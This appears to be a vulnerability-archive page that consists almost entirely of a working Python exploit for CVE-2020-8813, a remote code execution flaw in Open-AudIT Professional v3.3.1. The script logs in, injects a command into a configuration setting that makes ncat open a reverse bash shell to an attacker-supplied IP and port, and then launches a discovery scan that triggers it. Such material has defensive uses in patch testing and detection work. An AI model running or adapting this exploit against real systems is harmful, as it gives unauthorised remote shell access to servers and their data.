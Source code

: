 <languages />

漏洞影響
--------

    Open-AudIT v3.3.1

EXP
---

    #!/usr/bin/python3

    # Exploit Title: Open-AudIT Professional v3.3.1 Remote Code Execution
    # Date: 22/04/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://opmantek.com/
    # Version: v3.3.1
    # Tested on: Ubuntu 18.04 / PHP 7.2.24

    import requests
    import sys
    import warnings
    import random
    import string
    from bs4 import BeautifulSoup
    from urllib.parse import quote

    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')


    if len(sys.argv) != 6:
       print("[~] Usage : ./openaudit-exploit.py url username password ip port")
       exit()

    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]

    request = requests.session()

    def inject_payload():
       configuration_path = url+"/en/omk/open-audit/configuration/90"
       data = 'data={"data":{"id":"90","type":"configuration","attributes":{"value":";ncat${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s${IFS};"}}}' % (ip, port)
       request.patch(configuration_path, data)
       print("[+] Payload injected in settings")


    def start_discovery():
       discovery_path = url+"/en/omk/open-audit/discoveries/create"
       post_discovery_path = url+"/en/omk/open-audit/discoveries"
       scan_name = "".join([random.choice(string.ascii_uppercase) for i in range(10)])
       req = request.get(discovery_path)

       response = req.text
       soup = BeautifulSoup(response, "html5lib")
       token = soup.findAll('input')[5].get("value")
       buttons = soup.findAll("button")
       headers = {"Referer" : discovery_path}
       request_data = {
       "data[attributes][name]":scan_name,
       "data[attributes][other][subnet]":"10.10.10.1/24",
       "data[attributes][other][ad_server]":"",
       "data[attributes][other][ad_domain]":"",
       "submit":"",
       "data[type]":"discoveries",
       "data[access_token]":token,
       "data[attributes][complete]":"y",
       "data[attributes][org_id]":"1",
       "data[attributes][type]":"subnet",
       "data[attributes][devices_assigned_to_org]":"",
       "data[attributes][devices_assigned_to_location]":"",
       "data[attributes][other][nmap][discovery_scan_option_id]":"1",
       "data[attributes][other][nmap][ping]":"y",
       "data[attributes][other][nmap][service_version]":"n",
       "data[attributes][other][nmap][open|filtered]":"n",
       "data[attributes][other][nmap][filtered]":"n",
       "data[attributes][other][nmap][timing]":"4",
       "data[attributes][other][nmap][nmap_tcp_ports]":"0",
       "data[attributes][other][nmap][nmap_udp_ports]":"0",
       "data[attributes][other][nmap][tcp_ports]":"22,135,62078",
       "data[attributes][other][nmap][udp_ports]":"161",
       "data[attributes][other][nmap][timeout]":"",
       "data[attributes][other][nmap][exclude_tcp_ports]":"",
       "data[attributes][other][nmap][exclude_udp_ports]":"",
       "data[attributes][other][nmap][exclude_ip]":"",
       "data[attributes][other][nmap][ssh_ports]":"22",
       "data[attributes][other][match][match_dbus]":"",
       "data[attributes][other][match][match_fqdn]":"",
       "data[attributes][other][match][match_dns_fqdn]":"",
       "data[attributes][other][match][match_dns_hostname]":"",
       "data[attributes][other][match][match_hostname]":"",
       "data[attributes][other][match][match_hostname_dbus]":"",
       "data[attributes][other][match][match_hostname_serial]":"",
       "data[attributes][other][match][match_hostname_uuid]":"",
       "data[attributes][other][match][match_ip]":"",
       "data[attributes][other][match][match_ip_no_data]":"",
       "data[attributes][other][match][match_mac]":"",
       "data[attributes][other][match][match_mac_vmware]":"",
       "data[attributes][other][match][match_serial]":"",
       "data[attributes][other][match][match_serial_type]":"",
       "data[attributes][other][match][match_sysname]":"",
       "data[attributes][other][match][match_sysname_serial]":"",
       "data[attributes][other][match][match_uuid]":""

       }
       print("[+] Creating discovery ..")
       req = request.post(post_discovery_path, data=request_data, headers=headers, allow_redirects=False)
       disocvery_url = url + req.headers['Location'] + "/execute"
       print("[+] Triggering payload ..")
       print("[+] Check your nc ;)")
       request.get(disocvery_url)


    def login():
       login_info = {
       "redirect_url": "/en/omk/open-audit",
       "username": username,
       "password": password
       }
       login_request = request.post(url+"/en/omk/open-audit/login", login_info)
       login_text = login_request.text
       if "There was an error authenticating" in login_text:
           return False
       else:
           return True

    if login():
       print("[+] LoggedIn Successfully")
       inject_payload()
       start_discovery()
    else:
       print("[-] Cannot login!")
